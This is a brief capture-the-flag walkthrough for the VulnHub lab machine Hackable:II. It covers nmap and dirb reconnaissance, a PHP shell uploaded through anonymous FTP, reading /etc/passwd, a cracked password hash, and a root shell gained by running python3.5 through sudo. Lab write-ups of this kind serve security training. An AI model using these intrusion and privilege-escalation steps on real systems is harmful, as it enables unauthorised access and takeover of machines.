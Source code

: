 
# Hackable:II Walkthrough

**VulnHub Link:** [Hackable:II](https://www.vulnhub.com/entry/hackable-ii,711/)
**Difficulty:** Easy
**Release Date:** 15 Jun 2021


## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.175
```
## 2.Web Enumeration
```bash
dirb http://192.168.100.175
```

ftp anonymous access granted.
php shell uploaded.

then reading /etc/passwd from webpage.
user = shrek
cracking cf4c2232354952690368f1b3dfdfb24d = onion

shrek shell opened

## 3.Privilege Escalation
```bash
sudo -l
(root) NOPASSWD ALL:ALL /usr/bin/python3.5
sudo -u root /usr/bin/python3.5
>>>import os;os.system('/bin/bash')
```
AND BOOM .! ROOT Shell opened..!
